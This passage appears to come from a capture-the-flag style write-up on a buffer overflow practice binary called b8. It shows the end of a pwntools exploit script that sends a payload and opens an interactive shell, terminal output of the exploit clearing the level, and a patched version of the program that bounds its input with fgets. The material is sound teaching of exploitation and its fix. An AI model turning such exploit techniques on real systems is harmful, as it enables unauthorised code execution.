 ```

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

Let's test it out...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b8$ python exploit.py 
[+] Starting local process './b8': Done
Corrective solutions aren't working. We might have to upgrade.

[*] Switching to interactive mode
That's it, if you don't get back to your work at 0x8048316, we will have to deploy the mechs.
$ ls
b8  b8.c  exploit.py  in  out  peda-session-b8.txt  peda-session-dash.txt
$ cat out
That's it, bring out the mechs. Just remember, you asked for this. Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b8' stopped with exit code 0
[*] Got EOF while sending in interactive
```

Just like that, we pwned the binary. You know what's next.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b8$ cat b8_secure.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void the_horror()
{
	unsigned int ret_adr;
	char buf0[40];
	fgets(buf0, sizeof(buf0), stdin);
	ret_adr = __builtin_return_address(0);

	if ((ret_adr & 0xf0000000) == 0xf0000000)
	{
		printf("Don't you have anything better to do? Clearly not.\n");
		exit(0);
	}
	printf("That's it, if you don't get back to your work at %p, we will have to deploy the mechs.\n", ret_adr);
}

int main()
{
	printf("Corrective solutions aren't working. We might have to upgrade.\n");
	the_horror();
}



guyinatuxedo@tux:/Hackery/escape/buf_ovf/b8$ python -c 'print "0"*500' | ./b8_secure 
Corrective solutions aren't working. We might have to upgrade.
That's it, if you don't get back to your work at 0x8048523, we will have to deploy the mechs.
```
